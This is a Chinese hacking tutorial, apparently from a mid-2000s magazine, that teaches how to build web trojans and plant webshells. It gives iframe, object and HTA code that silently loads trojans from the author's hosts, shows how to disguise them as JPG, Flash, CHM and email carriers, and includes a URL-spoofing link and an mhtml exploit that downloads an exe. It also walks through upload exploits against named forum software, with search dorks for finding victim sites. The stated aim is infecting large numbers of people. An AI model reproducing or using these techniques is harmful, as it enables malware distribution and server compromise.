

其他的项目大家可以根据自己的爱好来填写，也可以不改，配置好以后点“生成”，就可以生成我们的木马了。如图 3 所示。这个时候你一定不要点“是”哦，那样的话就是在本机安装了，我们点“否”。好了，将我们的木马命名为 mm.exe，先将它上传到网络上。因为我们刚才申请的这个空间不支持上传 exe 文件，所以我上传到网易上面的免费空间，没有的朋友可以到 `http://pg.nease.net/php/free/register.php` 申请一个，我用 CuteFTP 上传，木马文件的地址是 `http://qfaq.go.nease.net/mm.exe`。



OK，现在你打开动鲨木马生成器，把你的木马地址填写上去即可，如图 4 所示。



点击“生成网页木马”就可生成一个名为“动鲨木马”的文件夹，里面有 3 个文件：mm.html、lhxyexe.asp、lhxyhta.asp。为了隐藏，我们这里还要修改一下：用记事本打开 lhxyexe.asp，把“网页木马测试”换成有迷惑性的标题，然后再把下面这段代码插入一个正常显示的网页文件里：

```html
<iframe src="mm.html" name="zhu" width="0" height="0" frameborder="0"></iframe>
```

比如我把它插入我的 test.htm 文件里，如图 5 所示。



图 5

最后把 mm.html、lhxyexe.asp、lhxyhta.asp、test.htm 4 个文件全部上传到我们的空间上，然后诱使人打开你的网页 `http://www.tbns.net/xuehan/test.htm` 即可让人中招了。

关于如何使你的网页木马更难让人发现和各种伪装技巧，我将在后文介绍。有关动鲨网页木马的制作我们就先介绍到这里。一般来说，对普通的网络使用者是非常管用的，但是最新的 IE6+Update 可以防护这招，大家可要小心了！

## 图 2. 暗夜中的幽灵：exe2bmp 网页木马

我们这里要用到的是陈皓涛的 exe2bmp 木马生成器，这个网页木马的制作也是利用 Object 标签的漏洞。可见这个漏洞危害之大。

打开 exe2bmp.exe，点“选择”按钮，选择我们的木马文件，我这里还是用 mm.exe，点“生成”即可生成 3 个文件，即 mm.bmp、mm.asp、mm.htm，如图 6 所示。



图 6

关闭 exe2bmp.exe，在当前的文件夹下我们就会发现这 3 个文件。在上传之前我们还要修改一下，因为 mm.asp 文件在打开后不能关闭。我们用记事本打开 mm.asp，将原来的“好像很爽的感觉……”周围代码替换成我们自己的迷惑性代码，如图 7 所示。



图 7

这个网页木马很具迷惑性，也非常有用。但是有个小缺陷，就是运行后不能自己关闭，所以得给它加个可以自己关闭的功能，下面这段代码修正了它的 ASP 文件不能自动关闭的错误。

```html
window.close()
end_if
if Folder.SubFolders.Count <> 0 Then
  For Each SubFolder In Folder.SubFolders
    SearchBIMPicture SubFolder.Pathname
  Next
End If
End Function
</script>
<SCRIPT language="javascript">
function F(){
  FP();
  if (Sucess==0) setTimeout("F()",2000)
}
setTimeout("t()",2000);
parent.moveTo((screen.width-0)/2,(screen.height-0)/2);
parent.resizeTo(0,0);
</SCRIPT>
</head>
<HTA:APPLICATION caption="no" border="none" SHOWINTASKBAR="no">
<body bgcolor="#ffffff" text="#000000" scroll="no" leftmargin="2" topmargin="3" marginwidth="0" marginheight="0" oncontextmenu="self.event.returnvalue=0" onkeydown="javascript: if(event.keyCode==27||event.keyCode==78 && event.ctrlKey)return false;">
</body>
</html>
```

将上面这段代码保存后，再打开 mm.htm 这个文件，将 `<object data="mm.asp" width=0 height=0>` 这段代码复制下来，然后和制作动鲨木马的方法一样将它插入正常的网页里即可！比如我这里还是 test.htm，保存好后，再将 test.htm、mm.asp、mm.bmp 3 个文件全部上传到你的空间上去，然后诱使人看你的 `http://www.tbns.net/xuehan/test.htm`，即可让人中马！

这样，又一个超强的网页木马在你的手上诞生了，不要用它去做坏事哦！

## 图 3. 批量抓鸡：冰狐浪子的网页木马

这个网页木马不需要 ASP 空间的支持，只需要普通的空间即可。制作很简单，一共有 3 个文件，模板我已经给大家打包好了，放在光盘里。你需要做的只是修改几处地方：把你的木马命名为 xuehan.exe，这个是必须的；然后用记事本打开 2.htm 文件，找到 isurl 后的一段地址代码，将这部分换成你自己的地址即可，如图 8 所示。

图8

再用记事本打开 xuehan.js 文件，将 url 后的地址换成你要给别人执行的木马地址就可以了，如图9所示。

图9

保存好，然后将这 3 个文件上传到免费的空间上（国内空间速度较快），然后让人打开 2.htm 就中招了……这个是无害演示，如果木马执行成功会打开一个三维动画。

### 各类伪装网页木马制作

说实话，制作一个网页木马是很简单的事情，关键是如何让人相信网页没有木马，从而放松警惕……所以还要把木马伪装一下。

### 1. jpg 木马制作技术

http://xxx.xxx.xxx.xxx/001.jpg 这个地址和普通地址看似没区别，但木马可能已在后台下载并执行。我们来构造这样的页面，打开记事本写入如下代码：

```html
<html>
<iframe src="IE6.0网页木马地址" width="0" height="0" frameborder="0"></iframe>
<center></center>
</html>
```

```html
<iframe src="http://www.tbns.net/xuehan/test.htm" width="0" height="0" frameborder="0"></iframe>
<center></center>
</html>
```

然后将其另存为 001.jpg，上传到空间并给出相对路径。别人访问 001.jpg 时，浏览器会执行其中的 html 代码，隐藏窗口被打开，同时图片仍会正常显示。

```html
<html>
<iframe src="http://www.tbns.net/xuehan/test.htm" width="0" height="0" frameborder="0"></iframe>
<center></center>
</html>
```

然后把它改名为 001.jpg，再把 001.jpg 和 002.jpg 上传。打开 001.jpg 时，看到的是 002.jpg，但网页木马已执行。接下来是更隐蔽的方式：制作 Flash 网页木马。

#### 2. Flash 网页木马制作技巧

这种网页木马表面是 Flash 动画，实际暗藏木马。可在支持 Flash 标签的论坛放置。先做一个正常且有吸引力的 Flash，在第一帧打开动作面板，依次进入 Actions\Browser\Network\getURL，并在 URL 填入木马网页地址。

图10

然后在第二帧上点击右键“插入空白关键帧”……开动作面板，展开 Actions\Browser\Network，打开 loadMovie，双击它，在 URL 里填上你的正常动画地址，比如我这里用的是：

```text
http://www.pconline.com.cn/pcedu/cartoon/xp/10212/other/iconstory.swf
```

一个很不错的动画，最后点“文件/输出影片”它会让你命名，我这里用 test 这个名字。你到你保存的目录里即可找到 test.swf 这个文件，把它上传到你的空间，把 URL 发给别人就等着抓鸡了。

如果你嫌这样抓鸡不够爽快，那我们到论坛上去办个养鸡场吧！例如我的地址是：http://www.tbns.net/xuehan/test.swf，比如没有优化的齐客论坛可以这样发帖子：[FLASH=450,350] http://www.tbns.net/xuehan/test.swf [/FLASH] 别人打开这个帖子时就会打开我们的网页木马，但是又不会跳走，呵呵，够阴险吧！

#### 3. 电子邮件传播网页木马

上面的办法能让你开个养鸡场了，要想公司上市就得扩大规模。再来看看另外的一个扩大范围抓鸡的方法：利用邮件传播网页木马！也就是说别人只要收到你的邮件，打开邮件一看就会中木马！

我们这里用我们上面制作的动网网页木马为例来说明邮件木马是怎么制作并批量抓肉鸡的。我们用 Foxmail 来新建一个网页模板，启动 Foxmail，打开“工具\模板管理”，新建一个模板，我们命名为 test。再打开 Foxmail 的安装目录，找到 \Template\New\ 文件夹下的 test.htm 文件，用记事本打开它，然后在里面的 `<body></body>` 之间加上如下代码：

```html
<object data='http://www.tbns.net/xuehan/lhxyexe.asp' height=0 width=0></object>
<object data='http://www.tbns.net/xuehan/lhxylita.asp' height=0 width=0></object>
```

> lhxyexe.asp 的调用一定要在 lhxylita.asp 的前面。保存后回到 Foxmail 里面，点“撰写”按钮旁的三角，使用 test 模板，如图11所示。

然后你就可以在里面写信了，最后发送给你要砍马的人即可，他要是打开这封信就会中马的，如果你里面写个什么好的祝福的话，相信不出一会就会传得很远的，呵呵。

### 终极网页木马伪装技术

上面介绍的技术足够我们批量获得肉鸡了，但很多“硬骨头”目标却不会这样简单地就上当，所以，我们需要将网页木马进行巧妙地隐藏，让它非常具有迷惑性，让“黑客”也能被我们黑！嘿嘿。

#### 1. 域名欺骗大法

这是一些牛人发明的一种很具有迷惑性的方法，你看到的是一个正常的域名，而实际上访问的却是别人的东西。这个要配合在论坛上发表帖子来使用，比如新建这样一个 HTML 文件，写下如下代码：

```html
<a href=http://www.163.com%00@qfaq.com/>www.163.com</a>
```

我们看到的是 www.163.com 这个域名的链接，当鼠标放在这个链接上面的时候，在 IE 的状态栏里显示的也是 www.163.com 这个域名，但是当我们点击打开的却是 www.qfaq.com 这个网站！如图12所示。

为什么会出现这样的情况呢？这个就是利用 IE 对解码的一个错误来的，你要是利用得当也是非常具有迷惑性的，那到底怎么利用呢？你可以将你的木马地址写在后面就可以了，别人点击的时候也就是成为你肉鸡的时刻。

#### 2. 利用 CHM 来传播木马

下面我将介绍为大家介绍本文的重中之重，也是最新的网页木马技术 CHM 传播木马，危害性极大，希望大家适度利用！

CHM 文件也就是帮助文件的一种格式，现在多用于制作电子书来传播，所以要是你给人发一个好的教程什么的，别人一定不会有所疑的，而且这个是在本地执行，权限很大，不需要像在远程打开我们的网页木马一样那么需要很大的权限！下面，我们就来看看怎样来制作这样的网页木马！

首先找一个电子书，我们先把它反编译一下，先找一个素材，当然你也可以自己做一个，我这个人比较懒，所以就拿来别人的来用了。这里我们要用到一个工具 Quick CHM，下载地址是 http://www.tiansha.net/down/soft/302.htm，这个可以反编译 CHM 文件。

界面很简洁。为了方便我们制作，我们要先写好一个 HTML 文件，这次我们利用的木马是一个比较新的网页木马，可以突破 IE6.0……

由于这个网页木马要覆盖掉记事本程序，所以你在测试的时候要注意备份下你的记事本程序……Windows 98、2K、XP 和 2003 用户对应路径如下……

这里我们不用上传任何的 EXE 文件……先把 EXE 文件转换成编码形式……打开我们的 1.exe 文件（DOS 环境下运行），将 2.exe 这个文件转换一下，如图13所示。

详细代码请查看光盘“源代码”栏目，按照文章名查找即可。打开 3.txt 你会看到很多的数字，这个就是 EXE 文件的 ASCII 码形式，如图14所示。

> 一定要把文本文件的最后一个逗号去掉，不然有可能运行不成功！然后复制所有文件到我给你的那个网页模板里，即用记事本打开 2.htm……  
> 在开头找到 `<script language="vbs">a=array()`，在这个括号内粘贴上面的 ASCII 码保存即可……

OK，现在打开 QuickCHM，先打开“文件/新建”新建一个工程，然后再打开“主题/添加子文件”选择我们的网页木马程序导入……然后点“文件/编译”即可生成一个 CHM 文件……如图15所示。

## 图3. 利用 HTML 文件重定向漏洞制作网页木马

最后，我们用一个最厉害的网页木马制作方法来结束这次网页木马制作方法……利用 HTML 文件重定向漏洞，针对 Windows 和 IE 版本都有较大危害。

```html
<object name="lx" classid="clsid:11111111-1111-1111-1111-111111111113" codebase="mhtml:file://C:\NO-SUCH.MHT!http://xuehan.go.163.net/xuehan.exe">
```

其中，`http://xuehan.go.163.net/xuehan.exe` 是木马地址……再用 QuickCHM 来编译网页木马文件……免责声明：本文方法仅做技术探讨。

| 适合读者 | 脚本爱好者、入侵爱好者、脚本程序员 |
|---|---|
| 前置知识 | 无 |
| 难度等级 | 低 |

**刘流：** 上传漏洞或许是脚本漏洞中唯一可以和系统漏洞中“溢出”比巧妙的攻击方法……本文总结各类系统上传漏洞利用方法，并给出 WebShell 上传实例（PHP/JSP 等）。

## 万能上传

### 抓虫 ASP/PHP/JSP 脚本系统

自从动网 7.0 拉开上传漏洞序幕后，各种系统的上传漏洞接踵而来。原理基本相似：抓包、改文件类型、路径后加空格并十六进制改写、最后提交。建议分析具体 UpFile 文件以加深理解。

> 代码中用到的变量解释如下：FilePath 默认值是 Uploadface（上传后默认存放目录，属性 Hidden）；File1 是要上传的文件。

工具参数说明：Action 填目标上传页面（如 /shell.asp）；在允许上传类型处默认 JPG；File1 填本地木马路径；Cookies 建议使用登录后抓取值，最后点击上传。

为便于说明，对照 DVBBS 的 UpFile.asp 与 Reg_upload.asp 两个文件：前者存在上传漏洞，后者提供表单参数。UpFile 执行时参数来自 Reg_upload 表单提交内容。

> 作者注：不建议过度依赖 WsockExpert 抓 Cookies，可用支持 Cookies 功能的浏览器（如 TouchNet Browser）或其他工具替代。

```html
<form name="form1" method="post" action="UpFile.asp">
<input type="hidden" name="filepath" value="uploadface">
<input type="hidden" name="act" value="upload">
<input type="file" name="file1">
<input type="hidden" name="fname">
<input type="submit" name="Submit" value="上传">
</form>
```

### ASP 上传漏洞篇

#### 1. 动网论坛

- 适用版本：DVBBS 7.0 SP2 以下（文中测试 7.0 SP1）
- 常见上传漏洞利用参数填写：
  - `Action`：`http://www.***.com/bbs/upfile.asp`
  - `UpPath`：第一个文本框填 `Filepath`（其余参数按表单对应填写）

填入 `/cmd.asp`（你也可以写 `../cmd.asp`，这样上传成功后就传到 `/bbs` 目录下了）。输入一个 WEB 程序允许上传的类型文本框，默认 JPG 就可以了。

File 第一个文本框输入 `file1`。第二个文本框填入 `D:\Hacktools\muma\cmd.asp`（这是 Cmd.asp 这个后门在我的计算机上的路径）。Cookies：这是每个漏洞利用上都比较关键的地方，我用 Touchnet browse 这个浏览器抓的 Cookie，它的主要功能是用来验证，不填它会报错。

所有参数都填好后，点击“Submit”按键提交吧！提交后等待就 OK 了，结果如图2所示。

程序返回成功后，可以用浏览器再检查一下是否成功，这里显示上传成功了！如图3所示。

> 文件已经上传成功，但没有出现“上传成功”的提示对话框，可以在浏览器里直接输入目标站点上的 WebShell 路径来测试是否成功，程序有时候会有误报。

后门介绍：这里用的是一个比较古老的后门，也就是最开始出现的直接调用 CMD 的那个 WebShell 了！直接在文本框中输入 DOS 命令 `netstat -an` 点运行，会看到本机都开了哪些端口，以及与远程主机的连接情况。其他 DOS 命令也可以执行，不过要注意权限问题。

#### 2. 尘缘新闻系统

尘缘新闻系统 0.45 Finish 以下版本（测试版本 V1.0 Access Finish），先在 Google 里搜索关键词“V1.0 Access Finish”，会看到出现一大堆使用尘缘雅境系统的网站，而它们就是我们的目标了！

先来分析一下如何填写参数。比如说某网站首页是 `http://www.xx.com/asfq/index.asp`，那么就要这样填写 Action：`http://www.xx.com/asfq/admin/uploadfaceok.asp`。漏洞目录 `/asfq/admin`（注意一定要加上 admin）。在 Uploadface.asp 中找相应的参数，Uploadface.asp 中的表单如下：

> 漏洞文件一般不用改，不过有些老版的尘缘系统的漏洞文件是 `Uploadok.asp`，如果 `Uploadfaceok.asp` 不成功，再改成 `Uploadok.asp`。

```html
<form name="form1" method="post" action="uploadfaceok.asp" enctype="multipart/form-data">
<input type="hidden" name="CopyrightInfo" value="http://www.chinaasp.com">
<input type="hidden" name="filepath" value="/uploadfile/face/">
<input type="hidden" name="act" value="upload">
<input type="file" name="file1" size="10" title="类型: jpg,gif,png,bmp，限制：200K">
<input type="submit" name="Submit" value="上传">
```

参数的填写方法类似动网。提交数据，成功后结果如图4、图5所示。

后门介绍：这里用的是动鲨的一个网页木马。执行 DOS 命令之前，你还需要把自己计算机上的 `CMD.exe` 上传到服务器上与网页木马相同的目录下，否则命令是不会执行的！很多网站做了安全策略，DOS 命令不能执行，有时利用动鲨的这个 ASP 木马反而可以执行一些命令！

#### 3. 动感下载系统

动感下载系统 XP 专业版 v1.3 Build 0112 及以下版本。在百度里搜索 `SoftView.Asp?SoftID=`，可以找到很多系统。

在它的 Upload.asp 中存在如下表单：

```html
<form name="form" method="post" action="UpFile.asp" enctype="multipart/form-data">
<input type="hidden" name="filepath" value="../upload200409/">
<input type="hidden" name="act" value="upload"> 文件位置
<input type="file" name="file1" size="38">
<input type="submit" name="Submit" value="上传" ...>
<br>文件类型 gif/jpg/zip/tar，大小限制 3000K
</form>
```

> 在百度里搜索“SoftView.Asp?SoftID=”找到的版本是 Access 版的程序；如果搜索“SoftView”找到的就是 SQL 版的程序。

有功底的朋友大概都看出来问题了吧？本文不是分析具体漏洞的，也就不做详细讲解了，新手朋友们就直接先按下面的参数提交成功后再来慢慢研究具体的漏洞吧！如图6、图7所示。

后门介绍：冰狐浪子微型 ASP 后门，非常小的一个后门，仅一句话，也可插在别的网页里，它把常用功能集成到了一起，包括写入存在的文件、环境探测、磁盘信息、搜索网络邻居共享等。

#### 4. Dxxo 论坛

Dxxo 论坛 2004 年 1 月发布版。它的 Uploadface.asp 文件中存在如下表单：

```html
<form method="post" action="upload.asp" enctype="multipart/form-data" name="form2" class="tdc">
<input type="file" name="file" size="40" class="bdt">
<input type="hidden" name="uploadfacey" value="uploadface/">
<input type="submit" name="submit" value="上传" class="bdt">
</form>
```

这里和前面的漏洞有点不同，UpPath 第一个文本框中要改成 Uploadfacey 而不是上例中的 FilePath，Cookies 的值要注册后再抓取的值，不然无法成功！具体参数如图8、图9所示。

> 这里不需要像图8发送文本框里出现的上传成功提示，显示的文件名（下划线部分）即可。

```html
<script>parent.form1.f3_content.value='.../uploadimg/...jpg|/uploadimg'</script>
test.jpg (1162) 上传成功!
```

没有看到 Test.asp 也没关系，只要直接在浏览器中直接输入 WebShell 的地址访问，就可以得到后门了（如图9）：
http://www.ri*an.cc/bbs/uploadface/test.asp

后门介绍：一个很不错的木马，可以让你在目标机器上写文件，第一次是出现在晏要饭写的动网 Upfiles 利用程序里。在“保存文件的绝对路径”下的文本框中输入目标机器上木马的存放位置和文件名（绝对路径上面已经给出来了，我们可以参照着写），在输入马的内容中复制上木马的内容，点保存完成上传即可！

#### 5. 天意商务网

天意商务网 3.6.3.7 版。在百度中搜索“天意商务网”，会找到很多装有天意商务网的站点，它的 Add.asp 文件中存在如下表单：

```html
<form method="POST" action="zs_save_add.asp" name="Form1" enctype="multipart/form-data">
<input type="hidden" name="filepath" value="../picture/">
<input type="file" class="f11" name="file" size="33" title="上传产品图片资料(不能大于200K，要求250*250像素)">
```

这里和上面的漏洞也有一点不同，File 的第一个文本框中要输入 File，“zs_save_add.asp”的确切位置是：“manage/spzs/zs_save_add.asp”，而且成功后也没有出现“上传成功”的对话框；完整参数和上传情况如图10、图11所示。




后门介绍：这个后门叫蓝屏木马，带有名字、密码、认证等三重验证，可以把它伪装成一个后台管理界面，而且功能也很多，很实用。

> 夫妻商务网系统有一个变量过滤不严，利用NBSI2很容易注入，有兴趣的朋友可以找找看。

#### 6. 乔客论坛

Joekoe V6.0，是我在做实验过程中用时最多的一个，因为参数太多，开始实验时总是报参数错误。首先来看看如何找到对我们有用的表单。在浏览器中输入：

```
http://www.zrl*3.com/user_put.asp?action=gallery
```

别忘了登录，然后查看源文件：

```
<tr><td>上传图片:</td><td><iframe ... src="upload.asp?uppath=gallery&upname=g2004927...&uptext=pic"></iframe> ...
<form name="form1" action="?action=UpFile" method="post" enctype="multipart/form-data">
<input type="hidden" name="up_path" value="gallery">
<input type="hidden" name="up_name" value="g2004927...">
<input type="hidden" name="up_text" value="pic">
<input type="file" name="file_name" ...>
<input type="submit" ... value="点击上传">
```

